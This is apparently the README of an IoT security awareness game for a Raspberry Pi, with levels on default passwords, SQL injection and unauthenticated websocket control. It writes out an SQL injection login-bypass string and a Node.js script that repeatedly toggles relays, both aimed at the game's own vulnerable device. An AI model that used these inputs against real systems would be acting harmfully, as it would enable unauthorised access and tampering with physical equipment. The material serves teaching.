

# IoT cybersecurity awareness game

## Description

IoT cybersecuirty awareness games created to illustrate most typical cybersecurity lapses in IoT systems. The game design expects some technical capablities, which range from reading manuals to acutally writing code. Game has three levels, which are ordered by difficulty.

### Level 1

In level 1, a simple login page is presented.


This level is used to demonstrate how system can be compromised by default passwords.

Those credentials are provided in the user manual.


Once entered they will provide full control over the system.


### Level 2

In level 2, you start a with an outdated webpage.


This level shows, why it is important to keep software updated.

By typing ```1' OR '1'='1';/*``` on the username field, you can access the system without knowing the password, because it is open to sql injection.


After the login you will be again provided full control over the system.



### Level 3

Level 3 offers no UI, instead it offers unauthenticated websocket server. This level is designed to show, what can happen to IoT systems, which have been exposed to networks, where adversarial behaviour is expected.

Hacks like this:
```javascript
const WebSocketClient = require('websocket').client

const client = new WebSocketClient()

client.on('connect', (connection) => {
  console.log('WebSocket Client Connected')

  function toggleRelay () {
    if (connection.connected) {
      connection.send(JSON.stringify({
        type: 'toggleRelay',
        data: JSON.stringify({
          pin: 12
        })
      }))
      connection.send(JSON.stringify({
        type: 'toggleRelay',
        data: JSON.stringify({
          pin: 11
        })
      }))
    }
  }

  setInterval(toggleRelay, 100)
})

client.connect('ws://192.168.1.1/websocket')
```

Can produce a result like this:


## Requirements

### Hardware

* Raspberry Pi 3 (tested) or better
* [2 Channel Relay module](https://www.ebay.com/itm/5V-1-2-4-6-8-Channel-Relay-Board-Module-Optocoupler-LED-for-Arduino-PiC-ARM-AVR/401237960337?hash=item5d6ba56691:m:mzkfWblEtqpHZfTceI9Bh9A:rk:1:pf:0)
* [4 Female-Female jumper cables](https://www.ebay.com/itm/40pcs-Dupont-Wire-Color-Jumper-Cable-2-54mm-1P-1P-Female-Female-For-Arduino/191674518846?epid=5003515415&hash=item2ca0b10d3e:g:X78AAOSwEeFVA-sE:rk:3:pf:0)

### Software

* Raspbian

## Setup

* ```sudo apt-get install git```
* ```curl -fsSL get.docker.com -o get-docker.sh && sh get-docker.sh```
* Optionally follow [instructions](https://medium.freecodecamp.org/the-easy-way-to-set-up-docker-on-a-raspberry-pi-7d24ced073ef) to avoid ```sudo ``` commands with docker
* ```git clone https://github.com/ebakoba/iot-cybersecurity-game.git```
* ```sudo docker build -t cybergame .``` **NB!** This can take a long time


* Run game

For level 1 - ```sudo docker run --privileged -e "LEVEL=1" -d -p 80:3000 cybergame```

For level 2 - ```sudo docker run --privileged -e "LEVEL=2" -d -p 80:3000 cybergame```

For level 3 - ```sudo docker run --privileged -e "LEVEL=3" -d -p 80:3000 cybergame```

* First two levels can be accessed on ```http://[RASPBERRY_IP]```, the third one is located at ```ws://[RASPBERRY_IP]/websocket```, where is [RASPBERRY_IP] is an IP address belonging to the raspberry device.

* Before starting a new level old one must be killed. This could be achieved with ```sudo docker kill $(sudo docker ps -q)```

### Additional steps

[Follow these instructions](https://maker.pro/raspberry-pi/projects/how-to-make-a-raspberry-pi-3-hotspot-and-build-a-stand-alone-network) to set up Wi-Fi access point using Raspberry Pi. This will enable more convinient networking for the game, as everybody can just connect to the game network.